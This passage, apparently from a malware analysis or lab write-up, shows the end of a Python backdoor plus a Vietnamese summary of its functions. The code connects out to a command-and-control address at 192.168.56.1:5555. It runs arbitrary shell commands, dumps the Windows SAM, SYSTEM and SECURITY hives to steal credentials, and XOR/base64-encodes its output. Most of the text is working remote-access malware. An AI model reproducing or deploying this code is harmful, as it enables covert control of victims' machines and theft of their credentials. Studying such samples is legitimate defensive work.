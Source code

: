 ```
                shell=True,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                stdin=subprocess.PIPE,
            )
        elif command[:5] == "check":
            try:
                is_admin()
                reliable_send(admin + " platform: " + platform)
            except:
                reliable_send("Cannot Perform Privilege Check! Platform: " + platform)
        elif command[:5] == "start":
            try:
                subprocess.Popen(command[6:], shell=True)
                reliable_send("[+] Started!")
            except:
                reliable_send("[-] Failed to start!")

        elif command[:12] == "get_sam_dump":
            sam_dump, system_dump, security_dump = get_sam_dump()
            reliable_send((sam_dump, system_dump, security_dump))
        else:
            execute = subprocess.Popen(
                command,
                shell=True,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                stdin=subprocess.PIPE,
            )
            result = execute.stdout.read() + execute.stderr.read()
            result = result.decode()
            result = highly_secure_payload(result, 1)
            reliable_send(result)


def connection():
    while True:
        time.sleep(1)
        try:
            s.connect(("192.168.56.1", 5555))

            shell()
            s.close()
            break
        except:
            connection()


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()


```
Tóm tắt script 
- connection()  tạo một socket C2
- reliable_send(data): Gửi data
- reliable_recv() : Nhận data và Deseralization data
- download_file(file_name):
- upload_file(file_name):
- download_url()
- get_sam_dump() : đọc các credentials trong SAM và SYSTEM hive
- highly_secure_payload(data, flag) : Nếu có flag thì encode base64 và ^ i
 Nếu không có flag thì decode base64 và decrypt XOR
